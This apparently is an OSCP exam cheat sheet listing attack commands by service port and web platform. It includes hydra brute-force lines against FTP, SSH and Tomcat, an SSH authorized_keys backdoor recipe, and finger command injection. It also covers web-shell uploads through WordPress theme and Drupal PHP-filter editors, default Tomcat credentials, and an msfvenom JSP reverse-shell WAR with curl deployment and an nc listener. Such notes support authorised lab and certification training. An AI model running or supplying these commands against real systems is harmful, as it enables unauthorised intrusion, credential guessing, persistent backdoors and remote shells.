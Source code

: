# Welcome to Zamrax's Cheat Sheet for OSCP

## Enumeration:

1. nmapAutomator:

	```nmapAutomator.sh -H IP -t All```

2. autorecon:

	```autorecon IP```

3. nmap:

	```nmap -T4 -A -p- IP```


## Port Enumeration:

### 21 (FTP):
1. Anonymous login is possible:

	```ftp IP```
	```ftp> USER anonymous```
	```ftp> PASS ```

2. View of FTP content:
	```ftp://IP```
3. Get files from FTP:
	```PASSIVE```
	```BINARY```
	```get FILE```
4. Upload files to FTP:
	```PASSIVE```
	```BINARY```
	```put FILE```
5. Brute force:
	```hydra -V -f -L USER_LIST -P /usr/share/wordlists/rockyou.txt ftp://IP -u -vV```
6. Vulnerability Scanning:
	```nmap -p 21 --script="+*ftp* and not brute and not dos and not fuzzer" -vv -oN ftp IP```

### 22 (SSH)
1. Brute Force:
	```hydra -V -f -L <USERS_LIST> -P /usr/share/wordlists/rockyou.txt ssh://IP -u -vV```
2. Possible Exploit: CVE-2008-0166:
	```searchsploit -m 5720```
3. Backdoor (might be worth it):
	```
	-> Attacker
	ssh-keygen -f FILE
	chmod 600 FILE
	cat FILE.pub -> copy

	-> Victim
	echo FILE.pub >> PATH/.ssh/authorized_keys

	-> Connect
	ssh -i FILE USER@IP
	```
4. Banner grab:
	```ssh root@IP```

### 23 (Telnet)
1. Connect:
	```telnet IP 23```

### 25 (SMTP)
1. Connect:
	```nc IP 25```
2. User enumeration:
	```VRFY USER```

### 43 (WHOIS)
1. Connection:
	```whois -h IP -p PORT "domain.tld"```

### 53 (DNS)
1. Enumeration:
	```
	dnsenum DOMAIN
	dnsrecon -d DOMAIN

	nslookup
	nslookup> server IP
	nslookup> DOMAIN
	```
2. Zone Transfer
	```
	dnsrecon -d DOMAAIN -a
	dig axfr DOMAIN @website
	```
3. DNS Brute force:
	```
	https://github.com/blark/aiodnsbrute
	```

### 69 (TFTP)
1. Enumeration
	```nmap -n -Pn -sU -p69 -sV --script tftp-enum IP```

### 79 (Finger)
1. User Enumeration
	```
	finger IP
	finger USER@IP
	```
2. Command execution:
	```
	finger "|/bin/id@<IP>"
	finger "|/bin/ls -a /<IP>"
	```

### 80 & 443 (HTTP):
1. Enumeration:
	```done by automatic scripts```
2. Directory Fuzzing:
- GoBuster:
	```
	gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20
	gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx
	gobuster dir -u http://IP/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 20 -x php,txt,html,cgi,sh,bak,aspx --insecuressl
	```
(might have to use `-k` switch if HTTPS is not trustable)
- Dirbuster
	```trivial```
	(Do not forget to change file formats and supply correct directory list like above)

**Wordpress**
_Enumeration_
	```
	\# Scan
	wpscan --rua -e --url IP/URL
	\# Brute force users/login
	wpscan --rua --url IP/URL -P /usr/share/wordlists/rockyou.txt -U "USER,USER"
	```
_Theme RCE_
	```
	Appearance -> Editor -> 404 Template (at the right)
	Change the content for a php shell
	https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
	http://<IP>/wp-content/themes/twentytwelve/404.php
	`
	_Plugin RCE_
	Follow this [Link](https://medium.com/swlh/wordpress-file-manager-plugin-exploit-for-unauthenticated-rce-8053db3512ac)
	**Drupal**
	`droopescan scan -u IP/URL`
	_User Enumeration_
	`In /user/register just try to create a username and if the name is already taken it will be notified :
	*The name admin is already taken*
	If you request a new password for an existing username :
	*Unable to send e-mail. Contact the site administrator if the problem persists.*
	If you request a new password for a non-existent username :
	*Sorry, test is not recognized as a user name or an e-mail address.*
	Accessing /user/<number> you can see the number of existing users :
		- /user/1 -> Access denied (user exist)
		- /user/2 -> Page not found (user doesn't exist)
	```
_Hidden Pages Enumeration_
	```wfuzz -c -z range,1-500 --hc 404 URL/node/FUZZ```
_Panel RCE_
	```
	You need the plugin php to be installed (check it accessing to /modules/php and if it returns a 403 then, exists, if not found, then the plugin php isn't installed)
	Go to Modules -> (Check) PHP Filter  -> Save configuration
	https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
	Then click on Add content -> Select Basic Page or Article -> Write php shellcode on the body -> Select PHP code in Text format -> Select Preview
	```
**Joomla**
_Enumeration_
	```
	joomscan -u URL
	./joomlavs.rb --url URL -a -v
	```
**Tomcat**
_Default Credentials_
	```
	The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic HTTP auth, the most common credentials are :
	\
	admin:admin
	tomcat:tomcat
	admin:<NOTHING>
	admin:s3cr3t
	tomcat:s3cr3t
	admin:tomcat
	```
_Brute Force_
	```hydra -L USER_LIST -P /usr/share/wordlists/rockyou.txt -f IP http-get /manager/html -vV -u```
_Panel RCE_
	```
	\# Generate payload
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war

	\# Upload payload
	Tomcat6 :
	wget 'http://USER:PASSWORD@IP:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

	Tomcat7 and above :
	curl -v -u USER:PASSWORD -T shell.war 'http://IP:8080/manager/text/deploy?path=/shellh&update=true'

	\# Listener
	nc -nvlp PORT

	\# Execute payload
	curl http://IP:8080/shell/
	```
